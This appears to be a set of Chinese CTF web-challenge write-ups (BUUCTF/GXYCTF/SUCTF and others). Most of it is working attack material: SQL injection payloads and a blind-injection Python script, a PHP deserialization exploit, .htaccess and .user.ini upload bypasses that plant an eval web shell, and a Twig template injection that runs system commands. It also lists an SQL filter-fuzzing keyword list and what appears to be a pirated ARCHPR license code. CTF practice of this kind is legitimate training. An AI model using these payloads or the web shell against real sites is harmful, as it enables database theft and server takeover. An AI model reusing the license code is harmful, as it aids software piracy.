### 27. [极客大挑战 2019]HardSQL

报错注入，利用函数**extractvalue()**；

extractvalue() ：对XML文档进行查询的函数，语法：`extractvalue(目标xml文档，xml路径)`

- 第一个参数 :  传入目标xml文档
- 第二个参数： xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容；
- tip: 能够查询的字符串长度最大是32个字符，如果超过32位，我们就需要用函数来查询，比如right(),left()，substr()来截取字符串；
- 用’^'来连接函数，形成异或

爆库：

```
?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
```

爆表（等于号过滤了使用like）：

```
?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))
```

爆列：

```
?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
```

爆数据：

```
?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(password)from(H4rDsq1))))%23
```

由于extractvalue()函数一次只能显示32个字符，我们需要用right函数拼接出另外一半：


right：

```
?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(right(password,16))from(H4rDsq1))))%23
```

拼接得到flag


### 28. [MRCTF2020]Ez_bypass

代码审计：

```php
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

- ` if (md5($id) === md5($gg) && $id !== $gg)`：md5弱相等绕过，使用数组；
- ` if (!is_numeric($passwd))`、`if($passwd==1234567)`：字符若相等

最终payload：

```
?id[]=111&gg[]=222

passwd=1234567x
```

得到flag：


### 29. [网鼎杯 2020 青龙组]AreUSerialz

代码审计：

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

序列化，去调用read函数读取flag，需要满足：

- op=2
- content<100
- 传入的payload通过is_valid检测
  - `is_valid()`函数对传入的字符串进行判断，确保每一个字符ASCII码值都在32-125，即该函数的作用是确保参数字符串的每一个字符都是可打印的，才返回true。


**方法一：突破ord函数限制**

序列化脚本：

```php
<?php
  class FileHandler {
  protected $op = 2;
  protected $filename ='flag.php';         
 //题目中包含flag的文件
protected $content;

}
$bai = urlencode(serialize(new FileHandler)); 
//URL编码实例化后的类FileHandler序列化结果
$mao =str_replace('%00',"\\00",$bai);    
//str_replace函数查找变量bai里面的数值%00并将其替换为\\00
$mao =str_replace('s','S',$mao);         
//str_replace函数查找变量mao里面的数值s并将其替换为S
echo $mao                                               
//打印结果
?>

```


**方法二：突破protected访问修饰符限制**

序列化脚本：

```php
<?php
  class FileHandler {
  protected $op = 2;
  protected $filename ='php://filter/read=convert.base64-encode/resource=flag.php';             
//php://filter伪协议
protected $content;

}
$baimao=serialize(new FileHandler());
//实例化并序列化类FileHandler
echo $baimao;
//打印结果
?>

```

序列化结果

```
O:11:"FileHandler":3:{s:5:" * op";i:2;s:11:" * filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:" * content";N;}
```

删除乱码并减去相应长度

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

构造payload

```
?str=O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
```

### 30. [SUCTF 2019]CheckIn

需要使用.user.ini来进行绕过，构造.user.ini：

```ini
GIF89a
auto_prepend_file=a.jpg
auto_append_file=a.jpg
```

再构造a.jpg：

```php
GIF89a
<script language='php'> @eval($_POST['pass']);</script>
```


蚁剑连接，拿到flag

.user.ini知识点：


### 31. [GXYCTF2019]BabyUpload

上传发现有php后缀过滤：


使用**.htaccess**绕过，先上传htaccess：

```http
POST / HTTP/1.1
Host: e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------36243627783878118222275131329
Content-Length: 410
Origin: http://e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81
Connection: close
Referer: http://e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81/
Cookie: PHPSESSID=aa0a1a04d8e88c5f310149314e0ae059
Upgrade-Insecure-Requests: 1

-----------------------------36243627783878118222275131329
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "abc" >
SetHandler application/x-httpd-php
</FilesMatch>
-----------------------------36243627783878118222275131329
Content-Disposition: form-data; name="submit"

上传
-----------------------------36243627783878118222275131329--

```

再上传abc文件：

```http
POST / HTTP/1.1
Host: e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------36243627783878118222275131329
Content-Length: 397
Origin: http://e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81
Connection: close
Referer: http://e709aeca-d1f0-4b12-b188-270d06214cb7.node5.buuoj.cn:81/
Cookie: PHPSESSID=aa0a1a04d8e88c5f310149314e0ae059
Upgrade-Insecure-Requests: 1

-----------------------------36243627783878118222275131329
Content-Disposition: form-data; name="uploaded"; filename="abc"
Content-Type: image/jpeg

GIF89a
<script language='php'> @eval($_POST['pass']);</script>
-----------------------------36243627783878118222275131329
Content-Disposition: form-data; name="submit"

上传
-----------------------------36243627783878118222275131329--

```

蚁剑连接，拿到flag

### 32. [GXYCTF2019]BabySQli

万能密码：

```
1' or 1=1#
```

登录，CTRL U 查看源码，发现有提示：

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>Do you know who am I?</title>


do not hack me!
```

先base32解码再base64解码：


得到sql语句：

```sql
select * from user where username = '$name'
```

需要使用联合查询构造虚拟查询记录进行登录：


如果我们使用联合查询访问，一个真实存在的用户名和一个我们自己编造的密码，就会使虚拟数据混淆admin密码，从而使我们成功登录，得到 flag；

百度了下密码需要使用md5加密下，构造payload：

```
'union select 1,'admin','202cb962ac59075b964b07152d234b70'-- q  

密码输入123
```

得到flag

### 33. [GYCTF2020]Blacklist

和7. [强网杯 2019]随便注 类似，但本题有过滤，需要使用HANDLER 来进行绕过：

**Handler语法**

- handler语句：一行一行的浏览一个表中的数据；
- handler语句并不具备select语句的所有功能；
- mysql专用的语句，并没有包含到SQL标准中；
- HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表；

```sql
HANDLER tbl_name OPEN
```

打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。

```
HANDLER tbl_name READ FIRST
```

获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。

```
HANDLER tbl_name CLOSE
```

关闭打开的句柄。

```
HANDLER tbl_name READ index_name = value
```

通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

本题使用以下payload即可绕过：

```
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#
```


### 34. [CISCN2019 华北赛区 Day2 Web1]Hack World

sql fuzz字典：

```
length 
+
handler
like
select 
sleep
database
delete
having
or
as
-~
BENCHMARK
limit
left
select
insert
sys.schema_auto_increment_columns
join
right
#
&
&&
\
handler
-- -
--
--+
INFORMATION
--
;
!
%
+
xor
<>
(
>
<
)
.
^
=
AND
BY
CAST
COLUMN
COUNT
CREATE
END
case
'1'='1
when
admin'
"
length 
+
length
REVERSE

ascii
select 
database
left
right
'
union
||
oorr
/
//
//*
*/*
/**/
anandd
GROUP
HAVING
IF
INTO
JOIN
LEAVE
LEFT
LEVEL
sleep
LIKE
NAMES
NEXT
NULL
OF
ON
|
infromation_schema
user
OR
ORDER
ORD
SCHEMA
SELECT
SET
TABLE
THEN
UPDATE
USER
USING
VALUE
VALUES
WHEN
WHERE
ADD
AND
prepare
set
update
delete
drop
inset
CAST
COLUMN
CONCAT
GROUP_CONCAT
group_concat
CREATE
DATABASE
DATABASES
alter
DELETE
DROP
floor
rand()
information_schema.tables
TABLE_SCHEMA
%df
concat_ws()
concat
LIMIT
ORD
ON
extractvalue
order 
CAST()
by
ORDER
OUTFILE
RENAME
REPLACE
SCHEMA
SELECT
SET
updatexml
SHOW
SQL
TABLE
THEN
TRUE
instr
benchmark
format
bin
substring
ord

UPDATE
VALUES
VARCHAR
VERSION
WHEN
WHERE
/*
`
  
,
users
%0a
%0b
mid
for
BEFORE
REGEXP
RLIKE
in
sys schemma
SEPARATOR
XOR
CURSOR
FLOOR
sys.schema_table_statistics_with_buffer
INFILE
count
%0c
from
%0d
%a0
=
@
else


```

搜索框输入1或2会返回结果，其他都返回bool(false)。过滤了union、and、or、空格等，包括`/**/`，有意思的是输入`1/1`时会正常返回结果，可以判断这是数字型的sql注入。

根据1和2返回结果的不同，可能是bool盲注，`()`没有过滤，可以使用大部分函数；

过滤空格绕过：

- `%09` `%0a` `%0b` `%0c` `%0d` `/**/` `/*!*/`
- 直接tab
- 括号

跑脚本注入：

```python
import requests
import time
import re

url='http://5629f1a8-007e-4f49-97ea-082dbe4c62a0.node5.buuoj.cn:81/'#题目链接
flag = ''

for i in range(1,50):#for循环遍历，i表示flag值大致长度是50以内
    max = 127
    min = 0

    for c in range(0,127):
        s = (int)((max+min)/2)
        payload = '1^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))>'+str(s)+')'
        #^异或运算符，相同为假，不相同为真，1^payload，若为payload结果为假，则返回0，1^0=1，将得到查询id=1时的结果，回显Hello, glzjin wants a girlfriend。
        #从flag数据表中选择一个名为flag的字段，然后取这个字段的字符串（从位置 '+str(i)+' 开始，长度为 1（每次只返回一个））
        #将这个字符串转换为 ASCII 码，然后判断这个 ASCII 码是否大于一个名为 "s" 的变量。
        r = requests.post(url,data = {'id':payload})
        time.sleep(0.5)

        if 'Hello, glzjin wants a girlfriend' in str(r.content):
            max=s
        else:
            min=s
        if((max-min)<=1):
            flag+=chr(max)
            print(flag)
            break
```

另外payload也可以如下：

```sql
if(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'),1,2)  #该payload返回Hello, glzjin wants a girlfriend. 证明flag第一位为f

```

### 35. [网鼎杯 2018]Fakebook

同adword 36. fakebook

### 36. [BJDCTF2020]The mystery of ip

- `X-Forwarded-For`（XFF，client-ip也可以）注入

- **PHP**可能存在**Twig模版注入漏洞**


payload：

```http
GET /flag.php HTTP/1.1
Host: node5.buuoj.cn:26782
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://node5.buuoj.cn:26782/hint.php
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For:{{system('cat /flag')}}


```

### 37. [网鼎杯 2020 朱雀组]phpweb


### [网鼎杯 2020 青龙组]filejava


## Others

ARCHPR破解码`ARCHPRP-GSVMT-66892-GKVMB-52992`

### 好文章

[【CTF 攻略】CTF比赛中关于zip的总结 - M4x - 博客园 (cnblogs.com)](https://www.cnblogs.com/WangAoBo/p/6944477.html)

[从小白变RSA大神，附常用工具使用方法及CTF中RSA典型例题-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1070314)

[【CTF杂项】常见文件文件头文件尾格式总结及各类文件头_ctf常见文件头-CSDN博客](https://blog.csdn.net/xiangshangbashaonian/article/details/80156865)

[CTF常用伪协议总结_compress.zlib ctf-CSDN博客](https://blog.csdn.net/weixin_51735061/article/details/123156046)

[PHP伪协议_伪协议闭合-CSDN博客](https://blog.csdn.net/qq_53142368/article/details/116594299)

[php://filter的各种过滤器_php://filter过滤器种类-CSDN博客](https://blog.csdn.net/qq_44657899/article/details/109300335)

[SQL注入时当and、or等字符被过滤了怎么办_sql注入and被过滤-CSDN博客](https://blog.csdn.net/weixin_40950781/article/details/100061268)

[sql注入绕WAF的N种姿势-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/268428#:~:text=当 order by 被过滤时，可以使用 into 变量名进行代替。 4.and%2For绕过 主流的,、or、xor进行拦截。 替代字符：and 等于%26%26、or 等于 ||、not 等于 !、xor 等于|)

[.user.ini文件构成的PHP后门 - phith0n (wooyun.js.org)](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

[php中的exec()函数怎么用-php教程-PHP中文网](https://www.php.cn/faq/80395.html)

[call_user_func_array函数详解-CSDN博客](https://blog.csdn.net/weihuiblog/article/details/78998924)

[php strcmp()漏洞_php strcmp 漏洞-CSDN博客](https://blog.csdn.net/cherrie007/article/details/77473817)